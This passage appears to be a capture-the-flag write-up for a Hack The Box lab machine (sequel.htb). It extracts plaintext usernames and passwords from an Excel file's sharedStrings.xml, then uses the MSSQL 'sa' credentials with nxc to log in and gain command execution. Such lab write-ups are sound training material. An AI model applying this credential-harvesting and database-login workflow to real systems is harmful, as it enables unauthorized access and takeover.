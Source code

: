 ```bash
$tree
.
├── [Content_Types].xml
├── docProps
│   ├── app.xml
│   ├── core.xml
│   └── custom.xml
├── _rels
└── xl
    ├── sharedStrings.xml
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    ├── workbook.xml
    └── worksheets
        ├── _rels
        │   └── sheet1.xml.rels
        └── sheet1.xml

7 directories, 10 files
```

### sharedStrings.xml

this file contained users and passwords:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

we find that account `sa` has a password of `MSSQLP@ssw0rd!`, using this to authenticate mssql:

```bash
$nxc mssql sequel.htb -u sa -p MSSQLP@ssw0rd! --local-auth
MSSQL       10.129.137.51  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.129.137.51  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

# User
user `SA` running on the box as `sql_svc` has command execution
